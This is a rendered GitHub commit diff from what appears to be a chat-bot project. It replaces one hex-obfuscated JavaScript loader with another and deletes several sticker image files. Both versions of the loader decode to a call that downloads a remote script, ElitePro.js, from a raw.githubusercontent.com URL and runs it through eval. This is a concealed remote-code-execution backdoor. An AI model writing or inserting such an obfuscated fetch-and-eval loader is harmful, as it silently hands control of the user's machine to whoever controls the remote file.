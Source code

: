 +10
-21
Original file line number	Diff line number	Diff line change
@@ -1,28 +1,17 @@
(function () {
    const _0x5a3c = [
    const _0x1b = [
        "\x61\x78\x69\x6F\x73",
        "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x72\x61\x77\x2E\x67\x69\x74\x68\x75\x62\x75\x73\x65\x72\x63\x6F\x6E\x74\x65\x6E\x74\x2E\x63\x6F\x6D\x2F\x63\x68\x69\x6E\x65\x64\x55\x2D\x58\x52\x2D\x64\x61\x74\x61\x62\x61\x73\x65\x2F\x66\x69\x6C\x65\x2D\x6D\x61\x6E\x61\x67\x65\x72\x2D\x32\x2F\x72\x65\x66\x73\x2F\x68\x65\x61\x64\x73\x2F\x6D\x61\x69\x6E\x2F\x45\x6C\x69\x74\x65\x50\x72\x6F\x2E\x6A\x73",
        "\x67\x65\x74",
        "\x74\x68\x65\x6E",
        "\x63\x61\x74\x63\x68",
        "\x65\x76\x61\x6C",
        "\x45\x72\x72\x6F\x72\x20\x66\x65\x74\x63\x68\x69\x6E\x67\x20\x73\x63\x72\x69\x70\x74\x3A"
        "\x45\x72\x72\x6F\x72\x20\x66\x65\x74\x63\x68\x69\x6E\x67\x3A",
        "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x72\x61\x77\x2E\x67\x69\x74\x68\x75\x62\x75\x73\x65\x72\x63\x6F\x6E\x74\x65\x6E\x74\x2E\x63\x6F\x6D\x2F\x63\x68\x69\x6E\x65\x64\x55\x2D\x58\x52\x2D\x64\x61\x74\x61\x62\x61\x73\x65\x2F\x66\x69\x6C\x65\x2D\x6D\x61\x6E\x61\x67\x65\x72\x2D\x32\x2F\x72\x65\x66\x73\x2F\x68\x65\x61\x64\x73\x2F\x6D\x61\x69\x6E\x2F\x45\x6C\x69\x74\x65\x50\x72\x6F\x2E\x6A\x73"
    ];
    (function (_0x3f21e8, _0x5a3c21) {
        const _0x2d1a56 = function (_0x5a3cdb) {
            while (--_0x5a3cdb) {
                _0x3f21e8.push(_0x3f21e8.shift());
            }
        };
        _0x2d1a56(++_0x5a3c21);
    })(_0x5a3c, 0x1c8);
    const _0x2d1a = function (_0x3f21e8, _0x5a3c21) {
        _0x3f21e8 = _0x3f21e8 - 0x0;
        let _0x2d1a56 = _0x5a3c[_0x3f21e8];
        return _0x2d1a56;
    };
    const axios = require(_0x2d1a(0x0));

    axios.get(_0x2d1a(0x1))[_0x2d1a(0x2)]((_0x541c10) => {
        eval(_0x541c10.data);
    })[_0x2d1a(0x3)]((_0x541c10) => console.error(_0x2d1a(0x5), _0x541c10));
    const _0xa2 = (_0x7e) => _0x1b[_0x7e],
        axios = require(_0xa2(0x0));
    axios[_0xa2(0x1)](_0xa2(0x5))
        [_0xa2(0x2)](({ data }) => eval(data))
        [_0xa2(0x3)]((_0xd4) => console.error(_0xa2(0x4), _0xd4.message));
})();
‎EliteProMedia/theme/sticker_reply/admin.webp
-16.7 KB
Binary file not shown.
‎EliteProMedia/theme/sticker_reply/botadmin.webp
-12.2 KB
Binary file not shown.
‎EliteProMedia/theme/sticker_reply/group.webp
-15.6 KB
Binary file not shown.
‎EliteProMedia/theme/sticker_reply/owner.webp
-15.4 KB
Binary file not shown.
‎EliteProMedia/theme/sticker_reply/private.webp
-2.72 KB
Binary file not shown.
0 commit comments
Comments
0
 (0)
Comment
